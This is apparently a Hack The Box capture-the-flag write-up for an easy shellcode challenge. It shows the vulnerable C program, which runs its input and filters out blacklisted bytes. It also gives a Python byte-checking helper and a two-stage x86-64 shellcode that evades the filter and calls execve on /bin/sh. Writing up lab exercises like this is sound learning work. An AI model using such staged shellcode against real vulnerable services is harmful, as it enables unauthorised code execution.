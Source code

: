 This challenge from hack the box is an easy challenge to start writing shellcode. 
It gives to you an executable and it's source code:
```C
// gcc execute.c -z execstack -o execute
#include <signal.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void setup() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
	alarm(0x7f);
}
int check(char *a, char *b, int size, int op) {
	for(int i = 0; i < op; i++) {
		for(int j = 0; j < size-1; j++) {
			if(a[i] == b[j])
	return 0;
		}
	}
	return 1337;
}

  

int main(){

	char buf[62];

	char blacklist[] = "\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67";

	setup();

	puts("Hey, just because I am hungry doesn't mean I'll execute everything");

	int size = read(0, buf, 60);

	if(!check(blacklist, buf, size, strlen(blacklist))) {

		puts("Hehe, told you... won't accept everything");

	exit(1337);

	}
	( ( void (*) () ) buf) ();
}
```
 It just read in a buffer your input and then it executes your code.  The only problem is that the challenge blacklists some bytes.

to understand what i can do and what i cannot i write a python script that assemble my assembly and then check what of its part are blacklisted:

```python
asm_code="""
mov rax, 0x3b
"""
shellcode=asm(asm_code)
for i in shellcode:
	if i in b"\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67":
	print(f"Found {hex(i)} = {i}")
```

After some tries i understood that i cannot use RAX in my instructions and that i cannot write "/bin/sh\x00" in my input. 
Since using GDB i understood that in RAX there was already the value 0x0 i decide to use the read syscall. My plan was:
- Read my second stage shellcode in memory
- Jump to it

This is the assembly for the first stage:
``` Assembly
xor rdi, rdi
mov rdx, 0x100
add rsi, 60
syscall
jmp rsi
```

For the second stage indeed i just wrote an easy shellcode that does an execve(/bin/sh\x00,0,0):
```assembly
mov rax, 0x3b
mov rdi, rsi
add rdi, 22
xor rsi, rsi
xor rdx, rdx
syscall
```